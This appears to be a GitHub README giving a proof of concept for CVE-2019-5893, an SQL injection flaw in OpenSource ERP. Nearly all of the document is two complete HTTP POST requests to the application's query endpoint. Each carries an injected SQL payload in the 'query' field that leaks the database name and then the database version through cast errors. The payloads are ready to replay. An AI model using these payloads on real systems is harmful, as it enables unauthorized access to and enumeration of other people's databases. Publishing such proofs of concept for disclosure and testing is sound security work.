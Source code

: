 # OpenSource-ERP-SQL-Injection
[OpenSource ERP](http://www.nelson-it.ch/) application has SQL Injection vulnerability.

## CVE-2019-5893
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-5893

https://www.exploit-db.com/exploits/46118

# PoC - Get DB name
```
POST /db/utils/query/data.xml HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Origin: http://172.16.118.142:8024
Referer: http://172.16.118.142:8024/
Cache-Control: no-cache
Accept-Language: en-us,en;q=0.5
Cookie: MneHttpSessionId8024=15471285865828
Host: 172.16.118.142:8024
Content-Length: 423
Accept-Encoding: gzip, deflate
Connection: close

sqlend=1&query=%27%7c%7ccast((select+chr(95)%7c%7cchr(33)%7c%7cchr(64)%7c%7c(SELECT+current_database())%7c%7cchr(95)%7c%7cchr(33)%7c%7cchr(64))+as+numeric)%7c%7c%27&schema=mne_application&table=userpref&cols=startweblet%2cregion%2cmslanguage%2cusername%2cloginname%2cpersonid%2clanguage%2cregionselect%2ctimezone%2ccountrycarcode%2cstylename%2cusername%2cstartwebletname&usernameInput.old=session_user&mneuserloginname=test
```
![alt tag](https://emreovunc.com/blog/en/OpenERP-SQL-DBname.png)

# PoC - Get DB version
```
POST /db/utils/query/data.xml HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Origin: http://172.16.118.142:8024
Referer: http://172.16.118.142:8024/
Cache-Control: no-cache
Accept-Language: en-us,en;q=0.5
Cookie: MneHttpSessionId8024=15471285865828
Host: 172.16.118.142:8024
Content-Length: 414
Accept-Encoding: gzip, deflate
Connection: close

sqlend=1&query=%27%7c%7ccast((select+chr(95)%7c%7cchr(33)%7c%7cchr(64)%7c%7c(SELECT+VERSION())%7c%7cchr(95)%7c%7cchr(33)%7c%7cchr(64))+as+numeric)%7c%7c%27&schema=mne_application&table=userpref&cols=startweblet%2cregion%2cmslanguage%2cusername%2cloginname%2cpersonid%2clanguage%2cregionselect%2ctimezone%2ccountrycarcode%2cstylename%2cusername%2cstartwebletname&usernameInput.old=session_user&mneuserloginname=test
```
![alt tag](https://emreovunc.com/blog/en/OpenERP-SQL-DBversion.png)

